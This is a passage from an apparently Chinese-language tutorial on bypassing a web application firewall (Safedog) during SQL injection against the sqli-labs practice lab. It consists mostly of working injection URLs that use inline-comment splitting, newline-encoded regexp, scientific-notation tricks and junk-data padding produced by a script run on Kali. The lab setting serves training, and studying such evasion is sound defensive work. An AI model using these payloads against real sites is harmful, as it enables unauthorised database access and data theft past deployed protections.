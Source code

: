 ```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*/!*//*!11440select*/ 1,2,3 --+
```

![提交成功的特殊符号手动测试](./../../../../../../images/SQL%20Injection%20%E5%85%8D%E6%9D%80/%E6%8F%90%E4%BA%A4%E6%88%90%E5%8A%9F%E7%9A%84%E7%89%B9%E6%AE%8A%E7%AC%A6%E5%8F%B7%E6%89%8B%E5%8A%A8%E6%B5%8B%E8%AF%95.png)

> 成功绕过
>
> `/*/!*/` 中间的 `/` 后加任意字符都可以，破坏了正则匹配

### 1.2.2 regexp 绕过

```
http://192.168.186.129/sqli-labs/Less-1/?id=1' regexp "%0A%23" /*!11144union %0A select */1,2,3--+
```

### 1.2.3 科学计数法绕过

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1'xor .1e1like "[%0a%23]"/*!11144union %0a select */1,2,3--+
```

### 1.2.4 产品缺陷绕过

使用脚本生成垃圾数据，安全狗大约需要 30 K 的垃圾数据，约为 800 个字符

```
┌──(root㉿kali-31)-[~]
└─# python generationData_bypass.py 800 > bypass.txt
```

查看生成的文件大小
